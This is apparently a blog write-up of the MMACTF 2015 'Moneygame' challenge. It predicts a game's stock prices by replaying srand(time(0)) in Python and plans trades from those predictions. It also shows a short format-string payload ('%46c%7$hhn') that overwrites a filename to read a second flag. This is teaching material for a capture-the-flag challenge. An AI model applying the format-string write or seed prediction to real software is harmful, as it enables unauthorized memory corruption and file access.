 ```yaml
---
layout: post
title:  "MMACTF 2015 - Moneygame Writeup"
date:   2015-09-07 18:03:59
categories: CTF Writeup
---
```

# Moneygame 1/2

## Recon

We are presented with a stock market game. We have to time the market just right in order to get 10x our initial cash pile. Psh.. easy peasy

Taking a look at the binary, we see that the numbers are generated from an `srand(time(0))`. This is great for us, since we can create the same random number sequence on our end, thus negating the "random" factor of the stocks.

![srand.png](srand.png)

## Quick aside

There is a print function that clears the screen in the binary. This was annoying to debug. Patching over it is a breeze with [binjitsu](http://www.github.com/binjitsu/binjitsu)

{% highlight python %}
from pwn import *

elf = ELF('moneygame')
# NOP out annoying print that clears screen
elf.asm(0x80487b3, 'nop')
elf.asm(0x80487b4, 'nop')
elf.asm(0x80487b5, 'nop')
elf.asm(0x80487b6, 'nop')
elf.asm(0x80487b7, 'nop')

elf.save('moneygame-patched')
{% endhighlight %}

Now, `moneygame-patched` can use used locally without the annoying screen clear. Now to the actual write-up

## Flag 1

With the help of Python's ctypes, generating these random numbers on our end is trivial:

{% highlight python %}
from ctypes import CDLL
libc = CDLL('libc-2.19.so')

# Seed srand with time(0)
now = int(floor(time.time()))
libc.srand(now)

random_num = libc.rand()
{% endhighlight %}

From here, we replicate the same function that creates the stocks from the binary in Python:

{% highlight python %}
def set_stocks():
    '''Create stocks based on current srand'''
    for index in xrange(1, 4):
        stocks[index].append(10000)

    for _ in xrange(54):
        for index in xrange(1, 4):
            curr_stock = stocks[index][-1]

            # Use of libc's rand in Python
            curr_stock += libc.rand() % 2001 - 1000
            if curr_stock <= 4999:
                curr_stock = 5000
            if curr_stock > 15000:
                curr_stock = 15000

            stocks[index].append(curr_stock)
{% endhighlight %}

Now that we have our three stock listings, we have to determine the optimal buy/sell path to success.

The quick and dirty method I used is described below:

* Calculate the peaks and valleys of each stock listings
* Calculate the largest profit margins for each stock using the peaks and valleys
* Sort all profit margins together
* Attempt to fill the 54 weeks based on the profit margins

An example of the last step of this simple algorithm is below:

The top three profit margins:
{% highlight python %}
[4, 6, 100, '1'] Stock 1 from week 4 to 6 yields 100
[7, 9, 80,  '3'] Stock 3 from week 7 to 9 yields 80
[1, 5, 50,  '2'] Stock 2 from week 1 to 5 yields 100
{% endhighlight %}

Starting with the most profitable, fill in our available actions:
{% highlight python %}
[4, 6, 100, '1'] Stock 1 from week 4 to 6 yields 100
Actions: ['', '', '', '', 'Buy stock1', 'Rest', 'Sell stock1', '', '', '']
{% endhighlight %}

Second most profitable:
{% highlight python %}
[7, 9, 80,  '3'] Stock 3 from week 7 to 9 yields 80
Actions: ['', '', '', '', 'Buy stock1', 'Rest', 'Sell stock1', 'Buy stock3', 'Rest', 'Sell stock3']
{% endhighlight %}

Our third most profitable overlaps and existing range i.e. the [4, 6, 100, '1']. In this case, fill as much as we can before the start of the existing range.
Note: This is not optimal. Bigger improvements can be made, but are not necessary.
{% highlight python %}
[1, 5, 50, '2']
# Note: 1 - 5 overlaps into existing 4 - 6, Try to go as far as we can before selling.
Actions: ['', 'Buy stock2', 'Rest', 'Sell stock2', 'Buy stock1', 'Rest', 'Sell stock1', 'Buy stock3', 'Rest', 'Sell stock3']
{% endhighlight %}

Now that we have our optimal actions, we simulate these actions in order to determine if the actions result in a bank of $100k. We don't want to waste time with the server, if we know ahead of time that we can lose.

Once we determine that we can win, we simply throw our results at the server and retrieve the first flag.

## Flag 2

There is a string format vulnerability in the name field of the high score after winning the game. After winning the game, the binary grabs the filename of the flag `flag1`, reads the contents of the file, and returns the contents to the user. We are given that the second flag is named `flag2`, so we can use the string format to simply change the filename from `flag1` to `flag2`. 

{% highlight python %}
# Located at offset 7 on the stack
# 0x804a2b4 = 'flag1'
# 0x804a2b8 = '1'
# '2' == 50
# Padding necessary -> 50 - 4 bytes of address = 46
shellcode = p32(0x804a2b8) + '%46c%7$hhn'
{% endhighlight %}
